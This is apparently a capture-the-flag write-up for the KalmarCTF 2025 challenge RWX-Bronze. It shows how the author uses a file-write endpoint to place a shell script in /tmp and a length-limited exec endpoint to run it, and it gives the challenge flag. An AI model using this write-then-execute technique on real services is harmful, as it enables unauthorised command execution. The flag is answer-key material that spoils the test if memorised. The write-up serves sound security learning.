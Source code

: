 ```yaml
---
title: RWX-Bronze
type: writeup
date: 2025-03-10T02:48:43+03:00
description: Writeup for RWX-Bronze [KalmarCTF 2025]
author: h3pha
tags:
- misc
draft: false
---
```

___

## Challenge Description

We give you file read, file write and code execution. But can you get the flag? Let's start out gently.

NOTE: If you get a 404 error, try using one of the endpoints described in the handout!

## Intuition

The challenge lets us execute commands of length 7, so we cannot execute `/would` with the necessary argument. My first attempt was to create a script file and run it with a command.

## Solution

Wrote the script into the `/tmp` directory:
```
POST /write?filename=/tmp/a HTTP/2

#!/bin/sh
/would you be so kind to provide me with a flag
```

Executed the script: `sh /*/a`
```
GET /exec?cmd=sh%20/*/a HTTP/2 
```

### Flag

`kalmar{ok_you_demonstrated_your_rwx_abilities_but_let_us_put_you_to_the_test_for_real_now}`